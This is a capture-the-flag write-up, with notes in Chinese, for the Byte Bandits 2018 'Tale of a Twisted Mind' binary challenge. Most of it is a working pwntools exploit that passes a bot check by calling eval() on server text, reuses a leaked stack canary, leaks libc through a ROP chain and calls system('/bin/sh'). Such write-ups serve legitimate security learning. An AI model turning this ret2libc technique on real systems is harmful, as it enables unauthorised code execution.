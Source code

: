 # Reference

[//]: <> (文章所涉及到的技术点、WriteUp的链接)

* https://github.com/phieulang1993/ctf-writeups/blob/master/2018/bytebandit/twisted/twisted_local.py
* https://github.com/st424204/ctf_practice/blob/master/Byte_Bandits_CTF/twisted/twisted.py
* http://www.wooy0ung.me/writeup/2018/04/10/bytebanditsctf-2018-writeup/

# Title

[//]: <> (题目)

Tale of a Twisted Mind

We all know how intelligent Layat is... He says that since everyone knows how gcc programs are protected, he set out to protect them by his own secret way.

But Alas! Even the compiler asked "Art Though Dumb?"

nc 34.218.199.37 6000

# Content

[//]: <> (WriteUp内容)

首先需要绕过bot detected

![](Resource/1.png)

只是一个简单计算，但要重复312次

![](Resource/2.png)

还要绕过canary


![](Resource/3.png)

看下程序流程，似乎没有info leak漏洞

![](Resource/4.png)

再看看远程，似乎有点不同

![](Resource/5.png)

远程的程序是patched过的，直接把canary给我们了,猜测是把该处patched成dword_804AA28

![](Resource/6.png)

```python
from pwn import *

context.log_level = "debug"

#r = remote("34.218.199.37", 6000)
s = process("./twisted_patched", env={"LD_PRELOAD":"./libc.so.6"})
elf = ELF("./twisted_patched")
libc = ELF("./libc.so.6")

def debug(addr):
    raw_input('debug:')
    gdb.attach(s, "b *" + addr)

for i in xrange(312):
	question = s.recvuntil("\n").split("=")[0]
	answer  = eval(question)
	print question, answer
	s.sendline(str(answer))

puts_plt = elf.plt["puts"]
printf_got = elf.got["printf"]
fgets_buff = 0x08048979
bss = 0x804aa58

system_off = libc.symbols["system"]
printf_off = libc.symbols["printf"]
binsh_off = libc.search("/bin/sh").next()

s.recvuntil("Bot Verification Complete!\n")
canary = u32(s.recv(4))
log.info('canary: %#x' % canary)

s.recv(1)
s.send("1")
p = "A"*0x10
p += p32(canary)
p += p32(bss)
p += p32(puts_plt)
p += p32(fgets_buff)
p += p32(printf_got)

s.sendline(p)
printf_addr = u32(s.recv(4))

libc_base = printf_addr - printf_off
system_addr = system_off + libc_base
binsh_addr = binsh_off + libc_base

p = "A"*0x10
p += p32(canary)
p += p32(bss)
p += p32(system_addr)
p += p32(fgets_buff)
p += p32(binsh_addr)

s.sendline(p)
s.interactive()
```